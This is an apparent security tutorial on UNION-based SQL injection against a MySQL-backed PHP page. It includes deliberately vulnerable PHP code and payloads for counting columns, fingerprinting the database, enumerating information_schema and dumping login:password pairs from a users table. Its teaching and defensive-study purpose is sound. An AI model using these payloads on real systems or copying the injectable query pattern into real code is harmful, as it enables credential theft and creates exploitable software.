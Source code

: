 # SQL Injection

### Syntax

* For example, let see what the request:

  ```mysql
  SELECT column1, column2, column3 FROM table1 WHERE column4='user'  AND column5=3 AND column6=4;
  ```

  will retrieve from the following table:

  | column1 | column2 | column3 | column4 | column5 | column6 |
  | ------- | ------- | ------- | ------- | ------- | ------- |
  | 1       | test    | Paul    | user    | 3       | 13      |
  | 2       | test1   | Robert  | user    | 3       | 4       |
  | 3       | test33  | Super   | user    | 3       | 4       |

  Using the previous query, the following results will be retrieved:

  | column1 | column2 | column3 |
  | ------- | ------- | ------- |
  | 2       | test1   | Robert  |
  | 3       | test33  | Super   |

  As we can see, only these values are returned since they are the only ones matching all of the conditions in the `WHERE` statement.

  If you read source code dealing with some databases, you will often see `SELECT * FROM tablename`. The `*` is a **wildcard** requesting the database to return all columns and avoid the need to name them all.

### Usage in web app

Let's take the example of a shopping website, when accessing the URL  /cat.php?id=1, you will see the picture article1. The following table  shows what you will see for different values of id:

| URL               | Article displayed |
| ----------------- | ----------------- |
| /article.php?id=1 | Article 1         |
| /article.php?id=2 | Article 2         |
| /article.php?id=3 | Article 3         |

The PHP code behind this page is:

```php
<?php
$id = $_GET["id"];
$result= mysql_query("SELECT * FROM articles WHERE id=".$id);
$row = mysql_fetch_assoc($result);
// ... display of an article from the query result ...
?>
```

### Union Keyword

* The UNION statement is used to put together information from two requests:

  ```mysql
  SELECT * FROM articles WHERE id=3 UNION SELECT ...
  ```

* ```mysql
  SELECT id,name,price FROM articles WHERE id=3  
  UNION SELECT id,login,password  FROM users
  ```

  The most important rule, is that **both statements should return the  same number of columns** otherwise the database will trigger an error.

### Exploiting using Union

* Exploiting SQL injection using `UNION` follows the steps below:
  1. Find the number of columns to perform the UNION
  2. Find what columns are echoed in the page
  3. Retrieve information from the database meta-tables
  4. Retrieve information from other tables/databases

##### Finding no. of columns returned

* There are two methods to get this information:

  - using UNION SELECT and increase the number of columns;
  - using ORDER BY statement.

* Example 1:

  1. `SELECT id,name,price FROM articles where id=1 UNION SELECT 1`, the injection `1 UNION SELECT 1` will return an error since the number of columns are different in the two sub-parts of the query;

  2. `SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2`, for the same reason as above, the payload `1 UNION SELECT 1,2` will return an error;

  3. `SELECT id,name,price FROM articles where id=1 UNION SELECT 1,2,3`, since both sub-parts have the same number of columns, this query won't  throw an error. You may even be able to see one of the numbers in the  page or in the source code of the page.

* **NOTE:** this works for MySQL the methodology is different for other  databases, the values 1,2,3,... should be changed to null,null,null, ... for database that need the same type of value in the 2 sides of the  UNION keyword. For Oracle, when SELECT is used the keyword FROM needs to be used, the table dual can be used to complete the request: `UNION SELECT null,null,null FROM dual`

* Example 2:

  `ORDER BY` is mostly used to tell the database what column should be used to sort results:

  ```mysql
  SELECT firstname,lastname,age,groups FROM users ORDER BY firstname
  ```

  The request above will return the users sorted by the firstname column.

  ```mysql
  SELECT firstname,lastname,age,groups FROM users ORDER BY 3
  ```

  The request above will return the users sorted by the third column in the given query that is `age` 

  1. `SELECT id,name,price FROM articles where id=1 ORDER BY 5`, the injection `1 ORDER BY 5` will return an error since the number of columns is less than 5 in the first part of the query.
  2. `SELECT id,name,price FROM articles where id=1 ORDER BY 3`, the injection `1 ORDER BY 3` will not return an error since the number of columns is less than or equal of 3 in the first part of the query.
  3. `SELECT id,name,price FROM articles where id=1 ORDER BY 4`, the injection `1 ORDER BY 4` will return an error since the number of columns is less than 4 in the first part of the query.

##### To get current information

* ```mysql
  1 UNION SELECT 1,@@version,3,4
  ```

* ```mysql
  1 UNION SELECT 1,current_user(),3,4
  ```

* ```mysql
  1 UNION SELECT 1,database(),3,4
  ```

##### Retrieving information

- the list of all tables: 

  ```mysql
  SELECT table_name FROM information_schema.tables
  ```

  mixing this with previous query,

  ```mysql
  1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables
  ```

- the list of all columns: 

  ```mysql
  SELECT column_name FROM information_schema.columns
  ```

  mixing this with previous query,

  ```mysql
  1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns
  ```

- put table*name and column*name in different parts of the injection:

  ```mysql
  1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns
  ```

- concatenate table*name and column*name in the same part of the injection using the keyword CONCAT:

  ```mysql
  1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
  ```

* EXAMPLE:

  ```mysql
  1 UNION SELECT 1,CONCAT(login,':',password),3,4 FROM users
  ```

  for getting details of column **login** and column **password** from the table of name **users** .